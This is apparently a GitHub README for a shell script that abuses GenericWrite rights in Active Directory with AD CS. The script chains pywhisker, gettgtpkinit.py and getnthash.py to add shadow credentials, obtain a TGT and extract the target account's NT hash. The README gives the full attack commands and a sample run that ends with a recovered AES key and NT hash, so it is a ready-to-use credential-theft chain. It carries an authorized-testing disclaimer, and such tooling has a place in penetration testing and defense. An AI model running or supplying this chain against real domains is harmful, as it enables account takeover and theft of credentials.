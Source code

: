 ## Dependancies
1. Requires pywhisker to be installed with pipx `pipx install git+https://github.com/ShutdownRepo/pywhisker.git`
2. Requires gettgtpkinit.py and getnthash.py from https://github.com/dirkjanm/PKINITtools/tree/master. I recommend cloning the repo and setting the tools as static variables in the script. I set mine like this.
```
# Full paths to gettgtpkinit.py and getnthash.py
GETTGT_PY="/home/kali/Transfers/PKINITtools/gettgtpkinit.py"
GETNTHASH_PY="/home/kali/Transfers/PKINITtools/getnthash.py"
```
3. Requires the necessary modules needed to run gettgtpkinit.py and getnthash.py. These are typically already satisfied in the latest release of Kali Linux. For other operating systems, please consult requirements.txt on the PKINITtools repo.

## Usage
This script combines pywhisker,  gettgtpkinit.py and getnthash.py to exploit GenericWrite Active Directory privilege set over a Domain User or Computer Object(machine account), requires ADCS to be properly configured on the domain controller.
Pywhisker is used to obtain a certificate for the targeted user, gettgtpkinit.py is used to obtain a TGT using the previously obtained certificate and finally getnthash.py is used to extract the NT hash from the TGT.

## Example
```
$ ./GenericWrite_ADCS.sh contoso.local p.thompson 'Password123!' j.kelly 10.129.86.37
[*] Starting attack for: j.kelly@contoso.local
[*] Requesting certificate with pywhisker...
    pywhisker -d "contoso.local" -u "p.thompson" -p "Password123!" --target "j.kelly" --action 'add' --dc-ip "10.129.86.37" > pywhisker_output.txt
[+] PFX file: 6IeF2D54.pfx
[+] PFX password: HWZMazba3gNZljp86FVN
[*] Requesting TGT with the certificate 6IeF2D54.pfx...
    python3 "/home/kali/Transfers/PKINITtools/gettgtpkinit.py" -dc-ip "10.129.86.37" -cert-pfx "6IeF2D54.pfx" -pfx-pass "HWZMazba3gNZljp86FVN" "contoso.local/j.kelly" ccache_j.kelly > gettgt_output.txt 2>&1
[+] AES key: aa93036d089ebfb981a756c009c4440174c2f2d16e20d86973d9a81ac5de1d7d
[*] Extracting NT hash from the ticket using the AES key...
    python3 "/home/kali/Transfers/PKINITtools/getnthash.py" "contoso.local/j.kelly" -key "aa93036d089ebfb981a756c009c4440174c2f2d16e20d86973d9a81ac5de1d7d" -dc-ip "10.129.86.37"
[*] Recovered NT Hash: 22151d74ba3de9317892cba1f9393a37
```

## Disclaimer
This script is an automation wrapper for existing tools and is intended for educational and authorized testing purposes only. **Full credit goes to the original authors of these tools**. The author of this script is not responsible for any misuse or unauthorized application of this script.
